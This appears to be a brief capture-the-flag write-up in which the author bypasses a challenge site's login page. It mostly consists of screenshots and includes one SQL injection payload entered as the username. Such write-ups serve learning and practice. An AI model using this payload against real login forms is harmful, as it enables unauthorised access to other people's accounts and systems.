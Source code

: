 ## Task

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/3cefa71b-b995-472d-ac13-d981066333fb)

Navigate to the webpage, you should get this

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/b5fa61ea-744e-4c42-b00c-12a26a27224f)

We were asked to bypass this login page, easy right??😂

Lets use the query
```
username: admin" or "1"="1--
password: blablabla
```

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/eb4f3857-06ff-4c7a-9f67-47d2fd3788a1)
![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/8244a38d-2c7b-4ef0-9645-028856fc4a45)

We have successfully bypassed the login page😎
